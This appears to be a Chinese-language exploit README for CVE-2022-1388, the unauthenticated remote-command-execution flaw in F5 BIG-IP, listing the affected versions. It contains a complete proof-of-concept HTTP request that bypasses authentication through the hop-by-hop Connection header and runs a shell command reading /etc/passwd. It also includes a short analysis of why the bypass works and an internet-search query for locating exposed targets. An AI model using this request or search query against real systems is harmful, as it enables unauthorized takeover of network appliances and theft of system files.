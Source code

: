 # F5 BIG-IP 未授权RCE漏洞（CVE-2022-1388）

## 利用条件：

- BIG-IP 16.x: 16.1.0 - 16.1.2
- BIG-IP 15.x: 15.1.0 - 15.1.5
- BIG-IP 14.x: 14.1.0 - 14.1.4
- BIG-IP 13.x: 13.1.0 - 13.1.4
- BIG-IP 12.x: 12.1.0 - 12.1.6
- BIG-IP 11.x: 11.6.1 - 11.6.5

## 利用方法：

#### POC
```java
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: asdf
Connection: keep-alive,X-F5-Auth-Token
Content-Type: application/json
Content-Length: 83

{"command":"run","utilCmdArgs":"-c 'cat /etc/passwd'"}
```
![](img/poc.jpg)

#### bypass
![](img/bypass.png)

## 漏洞分析：

1. Apache（模块 `mod_pam_auth.so`）会检查 `X-F5-Auth-Token` 是否为空。只有当存在 `X-F5-Auth-Token` 头并且不为空时，才会交给后端的 Jetty 进行认证，Jetty 来检查 `X-F5-Auth-Token` 的值是否合法（`EvaluatePermissions#evaluatePermission`），从而完成第二次认证，但是 Jetty 判断 `X-F5-Auth-Token` 为空时，将直接 “认为” Apache 已经完成认证从而不会检查提供的信息是否合法，从而实现了认证绕。
2. 如果请求中带有 HTTP 头 `Connection: close, X-Foo, X-Bar`，Apache 会在请求转发到代理前，将 `X-Foo` 和 `X-Bar` 逐一删除。
3. 很容易联想到可以构造特殊请求，通过 Apache 的检查，同时由于 hop-by-hop 滥用漏洞导致转发进入 Jetty 前已经删除了 `X-F5-Auth-Token` 头。
4. 顺利进入了 Jetty 解析，同时又不存在 `X-F5-Auth-Token` 头，从而实现了认证绕过。后面的逻辑处理与 CVE-2021-22986 是一样的，结合 F5 BIG-IP iControl REST 自带接口，很容易实现 RCE 。

## 漏洞环境：

某fa搜索：
` title="BIG-IP&reg;-+Redirect" && "Server" && server=="Apache" `